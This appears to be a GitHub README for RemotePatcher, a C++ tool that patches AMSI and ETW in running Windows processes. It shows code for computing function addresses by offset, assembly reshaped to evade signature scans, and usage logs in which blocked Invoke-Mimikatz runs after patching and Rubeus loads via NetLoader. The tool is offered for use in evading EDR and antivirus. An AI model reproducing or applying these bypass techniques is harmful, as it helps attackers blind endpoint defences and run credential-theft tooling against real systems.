 # RemotePatcher
I found that some EDR like Cortex XDR would pick up C# implemetation of AMSI/ETW patch functions. Instead of obfuscating someone's codes, I decided to write a tinny program to do the same thing, as well as practice C++ programming skill.



## A Little Twist

We could do a little twist to bypass static scan of AV.

**Calculating memory address**

Instead of getting the memory address of AMSIScanBuffer() and EtwEventWrite() directly, we could calculate it.

In amsi.dll, memory address of AMSIScanBuffer() is 0x1AF0 apart from DllRegisterServer()

```
void* dummyAddr = GetProcAddress(amsiDllHandle, "DllRegisterServer");
char* amsiAddr = (char*)dummyAddr + 6896;
```

In ntdll.dll, memory address of EtwEventWrite() is 0x15D0 apart from RtlSetLastWin32Error()

```
void* dummyAddr = GetProcAddress(ntDllHandle, "RtlSetLastWin32Error");
char* etwAddr = (char*)dummyAddr - 5584;
```

Remark: Tested on Windows 10 (Build 19043)



**Obtaining assembly code**

@RastaMouse's assembly code that commonly used

```
mov eax, 0x80070057
ret
```

Make a bit calucation but still do the same which return AMSI_RESULT_CLEAN

```
xor    eax,eax
add    eax,0x7dfdfe4e
add    eax,0x02090209
ret
```

Convert aeesmbly code to hex byte array [here](https://defuse.ca/online-x86-assembler.htm#disassembly)



## Usage

```
cmd> .\RemotePatcher.exe -h
RemotePatcher
More info: https://github.com/Hagrid29/RemotePatcher/
Options:
  --exe "[cmd]" the program that will be executed and patched
  --pid [pid]   the process ID that will be patched
  -a            to NOT patch AMSI
  -e            to NOT patch ETW
  -l            to NOT load amsi.dll
```

**Patch exiting process**

```
PS> "Invoke-Mimikatz"
At line:1 char:1
+ "Invoke-Mimikatz"
+ ~~~~~~~~~~~~~~~~~
This script contains malicious content and has been blocked by your antivirus software.
    + CategoryInfo          : ParserError: (:) [], ParentContainsErrorRecordException
    + FullyQualifiedErrorId : ScriptContainedMaliciousContent

PS> $pid
9756
PS> .\RemotePatcher.exe --pid 9756 -l
[+] Patched etw!
[+] Patched amsi!
PS> "Invoke-Mimikatz"
Invoke-Mimikatz
```

**Start a new program**

CSLoader.exe is a C# binary of [NetLoader](https://github.com/Flangvik/NetLoader) with AMSI/ETW patch functions removed.

```
.\RemotePatcher.exe --exe ".\CSLoader.exe --path rubeus.txt --key mykey --args hash /password:aaa"
[+] Patched etw!
[+] Patched amsi!
[+] Decrypting using key 'mykey'
[+] PATH : ru.txt
[+] Arguments : hash /password:aaa
   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.0.0


[*] Action: Calculate Password Hash(es)

[*] Input password             : aaa
[*]       rc4_hmac             : E24106942BF38BCF57A6A4B29016EFF6

[!] /user:X and /domain:Y need to be supplied to calculate AES and DES hash types!
```



## References

* https://rastamouse.me/memory-patching-amsi-bypass/
* https://www.mdsec.co.uk/2020/03/hiding-your-net-etw/



